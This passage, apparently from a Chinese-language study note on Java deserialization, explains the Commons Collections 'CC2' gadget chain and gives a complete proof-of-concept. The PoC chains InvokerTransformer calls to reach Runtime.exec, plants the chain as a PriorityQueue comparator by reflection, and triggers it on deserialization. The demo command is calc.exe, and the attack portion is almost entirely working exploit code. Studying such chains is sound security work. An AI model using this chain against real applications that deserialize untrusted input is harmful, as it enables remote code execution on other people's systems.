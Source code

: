 这里对 this.transformer 调用了 transform 方法，如果这个 this.transformer 可控的话，就可以触发 cc1 中的后半段链。而且没有被 static或 transient 修饰，所以是我们可控的。

POC：

```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

public class cc2 {

    public static void main(String[] args) throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{"calc.exe"})});

        TransformingComparator comparator = new TransformingComparator(chain);
        PriorityQueue queue = new PriorityQueue(1);

        queue.add(1);
        queue.add(2);

        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue,comparator);

        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc2"));
            outputStream.writeObject(queue);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc2"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
}
```
